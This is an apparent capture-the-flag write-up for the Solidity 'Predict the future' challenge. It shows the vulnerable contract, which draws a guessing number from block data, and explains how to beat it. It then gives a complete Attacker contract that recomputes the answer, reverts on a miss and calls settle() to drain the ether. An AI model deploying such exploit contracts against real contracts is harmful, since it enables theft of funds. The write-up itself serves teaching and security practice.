 # Predict the future

```
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
  address guesser;
  uint8 guess;
  uint256 settlementBlockNumber;

  function PredictTheFutureChallenge() public payable {
    require(msg.value == 1 ether);
  }

  function isComplete() public view returns (bool) {
    return address(this).balance == 0;
  }

  function lockInGuess(uint8 n) public payable {
    require(guesser == 0);
    require(msg.value == 1 ether);

    guesser = msg.sender;
    guess = n;
    settlementBlockNumber = block.number + 1;
  }

  function settle() public {
    require(msg.sender == guesser);
    require(block.number > settlementBlockNumber);

    uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

    guesser = 0;
    if (guess == answer) {
      msg.sender.transfer(2 ether);
    }
  }
}
```
## Goal

Guess the number to win and get all the ETH from the smart contract

## Exploit

1. create Attacker contract, and create instance from the PredictTheFutureChallenge contract inside the Attacker contract
2. call lockInGuess() function from Attacker contract, this function will make external call to the lockInGuess() function inside PredictTheFutureChallenge contract, with 1 as argument for the n parameter
  <ul>
    <li>the guessing number should be in range from 0 to 9, since the equation for getting the answer uses % 10</li>
  </ul>
3. this step would probably need to be repeated: call takeTheMoney() external function inside Attacker, here we check if the answer will be equal to the previously locked in guess
  <ul>
  <li>if it is we call the seetle() function from PredictTheFutureChallenge contract</li>
  <li>if it is not we revert the transaction, this allows us to stay in the game</li>
  </ul>

## Attacker contract code

```
contract Attacker {
  PredictTheFutureChallenge private predictFuture;

  function Attacker(address _predictFuture) public {
    predictFuture = PredictTheFutureChallenge(_predictFuture);
  }

  function lockInGuess() external payable {
    predictFuture.lockInGuess.value(msg.value)(1);
  }

  function takeTheMoney() external {
    uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
    require(answer == 1);
    predictFuture.settle();
  }
}
```